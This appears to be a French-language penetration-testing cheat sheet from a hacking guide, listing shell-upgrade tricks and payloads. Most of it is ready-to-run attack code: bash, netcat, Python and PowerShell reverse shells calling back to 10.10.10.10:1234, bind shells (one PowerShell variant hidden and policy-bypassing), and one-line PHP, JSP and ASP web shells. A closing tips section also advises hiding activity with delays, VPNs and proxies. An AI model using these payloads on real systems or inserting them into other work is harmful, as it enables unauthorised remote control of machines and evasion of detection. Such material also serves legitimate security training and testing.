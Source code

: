 # Shell Stable et Reverse Shell

## **Shell Stable**

### **1. Utilisation de `rlwrap`**

Si l'outil `rlwrap` est disponible sur la machine attaquante, tu peux améliorer l’interactivité du shell avec l'historique et les touches directionnelles :

```bash
rlwrap /bin/bash
```

### **2. Méthode Bash (sans Python)**

Si Python n'est pas disponible, mais que Bash est présent, utilise cette commande pour obtenir un shell interactif :

```bash
/bin/bash -i
```

### **3. Méthode Python**

Si Python est disponible sur la machine cible, utilise cette commande pour obtenir un shell interactif :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### **4. Méthode Python3**

Si Python3 est disponible, utilise cette commande :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **5. Méthode avec `socat` (si disponible)**

Si `socat` est disponible sur la machine cible ou si tu peux l’installer, tu peux établir un shell stable :

```bash
socat file:`tty`,raw,echo=0 tcp-connect:<IP>:<PORT>
```

### **6. Méthode Netcat et `/dev/tcp`**

Si l’accès réseau est possible depuis le shell et que la machine cible permet la lecture via `/dev/tcp`, tu peux établir une connexion stable avec Netcat :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

### **7. Utilisation de SSH**

Si tu as accès à une session avec un shell limité, tu peux essayer d’utiliser SSH pour obtenir un shell stable :

```bash
ssh user@localhost /bin/bash
```

***

## **Reverse Shell**

Un reverse shell est utilisé pour établir une connexion de la machine cible vers ton PC (machine attaquante). Voici des exemples pour différents langages.

### **1. Bash**

Commande 1 :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Commande 2 :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 > /tmp/f
```

### **2. Python**

Si Python est disponible sur la cible :

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **3. Python3**

Si Python3 est disponible :

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **4. PowerShell**

Utilise cette commande si PowerShell est présent :

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

***

## **Bind Shell**

Un bind shell permet à ton PC de se connecter à un port ouvert sur la machine cible.

### **1. Bash**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 > /tmp/f
```

### **2. Python**

```python
python3 -c 'import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())'
```

### **3. PowerShell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

## **Web Shell**

Un web shell est une interface web permettant d’exécuter des commandes sur un serveur via un navigateur.

### **1. PHP**

```php
<?php system($_REQUEST["cmd"]); ?>
```

### **2. JSP**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### **3. ASP**

```asp
<% eval request("cmd") %>
```

***

## **Bonnes Pratiques**

1. **Obtenir des autorisations** :
   * Toujours travailler dans un cadre légal et éthique. Obtenez des autorisations explicites avant de tester des systèmes.
2. **Minimiser les traces** :
   * Configurez des délais entre les connexions et utilisez des outils comme des VPN ou des proxys pour éviter d’attirer l’attention.
3. **Analyser les environnements** :
   * Avant d’exécuter un shell interactif, vérifiez les configurations locales pour éviter de briser les sessions existantes.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)

